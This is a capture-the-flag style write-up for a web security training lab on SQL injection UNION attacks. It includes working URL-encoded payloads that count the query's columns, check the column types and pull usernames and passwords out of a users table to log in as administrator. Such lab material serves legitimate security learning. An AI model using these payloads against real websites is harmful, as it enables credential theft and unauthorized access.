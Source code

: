 # Lab: SQL injection UNION attack, retrieving data from other tables
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

## Solution
Now we have to combine the learned lessons from the previous labs. First we need to determine the number of columns again. The following query shows that there are two columns:
```
https://0a4800210477952381c1c09500d200a1.web-security-academy.net/filter?category=Accessories%27%20union%20select%20null,null%20--%20
```

We knwo that we are looking for the columns username and password. Therefore both columns probably also use the strings data type. But let's evaluate this:
```
https://0a4800210477952381c1c09500d200a1.web-security-academy.net/filter?category=Accessories%27%20union%20select%20%27a%27,%27a%27%20--%20
```

At last we can build the injection to query the login information:
```
https://0a4800210477952381c1c09500d200a1.web-security-academy.net/filter?category=Accessories%27%20union%20select%20username,password%20from%20users%20--%20
```

This will create some kind of the following SQL query:
```sql
SELECT name, description FROM products WHERE category = 'Accessories' UNION SELECT username,password FROM users -- 
```

In the output of the website the users with passwords show up:
![Successful UNION attack](images/SQL_injection_UNION_attack_retrieving_data_from_other_tables.png)

To login as the administrator we have to click on 'My account' and enter the found credentials. After that the lab is solved.
